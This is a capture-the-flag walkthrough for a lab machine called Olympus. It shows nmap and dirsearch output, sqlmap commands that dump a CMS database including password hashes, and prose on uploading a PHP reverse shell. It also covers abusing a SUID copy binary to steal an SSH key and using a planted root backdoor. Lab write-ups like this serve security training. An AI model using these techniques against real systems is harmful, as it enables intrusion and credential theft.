




# Olympus Walkthrough

> :warning: If you are only looking for hints, refer to [Hints.md](Hints.md) :warning:


## :mag_right: Nmap :

The nmap scan reveals only two services :
```
sudo nmap -T4 -p- 10.10.247.26
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-25 15:47 CET
Nmap scan report for 10.10.247.26
Host is up (0.083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 89.17 seconds
```
They don't seem to be vulnerable as is, so let's take a look at the webserver !

## :globe_with_meridians: Source :


The website tries to refer us to another location named "olympus.thm"...
Let's add it to our host and see what's up.

|  |
| :-------------------------------------------------: |
| *http://olympus.thm* |


## :open_file_folder: Dirsearch :

With this new website, running dirsearch will have us find no interesting directory at first. That's because we need to use a bigger wordlist ! So let's try Seclist's classics.
```
$~ dirsearch -u http://olympus.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4702

Output File: /home/arthur/.dirsearch/reports/olympus.thm/_22-03-25_15-48-58.txt

Error Log: /home/arthur/.dirsearch/logs/errors-22-03-25_15-48-58.log

Target: http://olympus.thm/

[15:48:59] Starting:
[15:49:10] 200 -    2KB - /index.php
[15:49:11] 301 -  315B  - /javascript  ->  http://olympus.thm/javascript/
[15:49:15] 403 -  276B  - /phpmyadmin
[15:49:18] 403 -  276B  - /server-status
[15:49:23] 301 -  315B  - /<Redacted>  ->  http://olympus.thm/<Redacted>/

Task Completed
```

This last directory seems interesting, it's entitled "Victor's CMS". Googling for a bit reveals that this is a really vulnerable CMS. So let's try exploiting it !

|  |
| :-------------------------------------------------: |
| *http://olympus.thm/<redacted>* |

## :syringe: SQLI

So it seems that most of the vulnerabilities were patched. However, the search is pretty interesting ! So let's see if it is indeed vulnerable to SQL Injection.  
> Spoiler : It is !  

What I did from there is catch a request with burpsuite and run
```bash
sqlmap -r olympus.search.request --dbs
```

This dumps
```bash
[10:42:56] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys
```

Then keep enumerating olympus dumps these tables :

```bash
[10:43:32] [INFO] fetching tables for database: 'olympus'
Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+
```

And looking for users, we get :

```bash [10:44:39] [INFO] fetching entries for table 'users' in database 'olympus'
Database: olympus
Table: users
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
```

Now on to cracking these hashes.
> Spoiler : only one will work

We have a login for prometheus, but the CMS now seems a rabbit hole.

## :globe_with_meridians: Vhosts :

It is mentioned on the website that the users need to change their email address.
We can see that both Zeus and the root user have a "chat.olympus.thm" email address.
This sure as hell looks like a subdomain. Otherwise, we can enumerate them using gobuster or any other tool.
Let's try adding this to our host file and see what's going on.

|  |
| :-------------------------------------------------: |
| *http://chat.olympus.thm* |

## :outbox_tray: Upload :

On the login page, we try the previously found user/password combination and find out they work.  
We then see a conversation between our user and another one. The conversation gives usefull information on what's going on with this WebApp.  
The next thing to do is for us to upload a reverse shell to the webserver and find it back to execute it !  
Uploading a shell is really easy since there is absolutely no filters. Finding how our file name was altered is, on the other hand, more complicated.

## :syringe: SQLI :

Using our sql injection again, we can dump the 'chat' table and find out that the uploaded filenames are stored within the database.

```bash
sqlmap -r olympus.search.request -D olympus -T chats --dump
```

## :computer: ReverseShell :

We can now upload a simple php reverse shell and then recover it's upload path using the SQLI we previously found.
> sqlmap won't update it's dump though, so you have to use the flag "--fresh-queries"

Finally, just connect to your php file and get a reverse shell already !


> :computer: Alternative foothold :
>
> From victor's CMS, there is an unintended way to get a reverse shell without even going through http://chat.olympus.com  
> The idea is to manually connect to /admin/includes/admin_add_post.php to upload a reverse php shell and then browse to it in the /admin/img section.  
> I did not try it on my own though, but feel free to experiment on that base !


## :fire: Lateral Privesc :

> Optionnal : stabilize your shell.

Linpeas doesn't flag anything obvious. In the SUID section though, there is an unknown SUID that pop's out : cputils.  
Even though GTFOBINS doesn't help here, maybe we can leverage this binary on our own. Let's run the binary to check it out.  
Seems like the binary is just about copying files. However, with Zeus's rights. Besides, when copying a file, it seems like the binary gives us a read access over the copied file ! So let's try leveraging this by copying Zeus's ssh identity for example.

|  |
| :-------------------------------------------------: |
| *cputils* |

Now is hash crack time ! Indeed, this ssh identity file requires a password. Using ssh2john and the rockyou wordlist, we shall crack the password in a few minutes.  
With that done, all that's left to do is to log in over ssh as Zeus and escalate to root !

## :skull_and_crossbones: Privesc :

When logged in as zeus, we can read zeus.txt which contains some interesting informations : prometheus left a permanent root access on the machine.
Backdoors are really often hidden in websites and accessible over http.  
Looking in /var/www/html , we can read the weird php file we found earlier.  
We could also be looking for the files we own or for the files our group owns. In fact, the zeus group owns a weirdly named file in /var/www/html.

When reaching to this file over http at http://<IP>/weirdfolder/weirdfile.php, we are asked for a password that we do not know.
However, as Zeus, we are able to read the php file and collect some usefull information like the password.
Finaly, as explained on the php file, we are able to gain a reverse shell using the password we found.

> :skull_and_crossbones: Alternative privesc :
>
> Instead of connecting to the webpage, we could have reverse engineered the php code and find out the binary that it was using and just execute it to get a root shell.  
> The line containing this information is :  
> $suid_bd = "/lib/<REDACTED>";

Et voilà, we are finally r00ted ;)


## :trollface: Bonus flag :

We know from the previous flags that they all start with "flag{".
Therefore, we can use a pretty common regex to find the last one :
(To reduce the task, cd to /etc instead)

```
$~ cd /
$~ grep -irl 'flag{'
<Redacted>
```

Note : I had to add my ssh public key to the authorized keys of the root user and use the regex logged in over ssh.  
I hope you enjoyed the room even if you had to use this walkthrough and that you learned some usefull stuff ^^

##

[Gavroche](https://github.com/G4vr0ch3)
